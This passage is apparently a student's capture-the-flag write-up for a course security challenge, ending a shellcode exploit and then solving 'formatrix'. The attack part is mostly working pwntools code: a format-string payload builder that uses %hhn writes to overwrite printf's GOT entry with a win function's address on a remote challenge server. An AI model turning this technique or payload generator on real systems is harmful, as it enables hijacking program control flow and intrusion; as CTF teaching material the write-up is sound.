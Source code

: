 ```
p.sendlineafter('> ', '1')
p.sendline(nops + code + p32(ret))

p.interactive()
```

## formatrix

---

FLAG{REDACTED}

---

_You can tell I did this one after Friday's tutorial_

Having opened the door to format strings, we now face the GOTacle. Can we overcome this!? _(I haven't watched the movie either)_

1. Pretty standard format string exploit: put an address onto the stack, write to it. Change the code flow.
2. Only difference? The address to overwrite is of the printf function which is dynamically decided on from the got. With no RELRO, this is tRiViaL.

How does this code work?

1. Graduating from the one liner almost unreadable code, I wrote up a function to write the address of the win function into the GOT.
2. Both the addresses of the GOT and win function can be obtained from the disassembly, since PIE is not enabled.

```
#!/usr/bin/python3

from pwn import *

#p = process('./formatrix')
p = remote('plsdonthaq.me', 4003)

got = 0x8049c18
win = 0x8048536

def writeAddress(where, what):
	win = p32(what)
	payload = b''
	payload += p32(where)
	payload += p32(where + 1)
	payload += p32(where + 2)
	payload += p32(where + 3)

	for i in range(4):
		ind = 3 - i
		byte = win[ind]
		count = ((byte - 16) + 256) % 256
		payload += f'%{count}x'.encode()
		payload += f'%{ind + 3}$hhn'.encode()
		if (i != 3):
			payload += f'%{256 - count}x'.encode()

	return payload

p.sendlineafter('You say: ', writeAddress(got, win))

p.interactive()
```
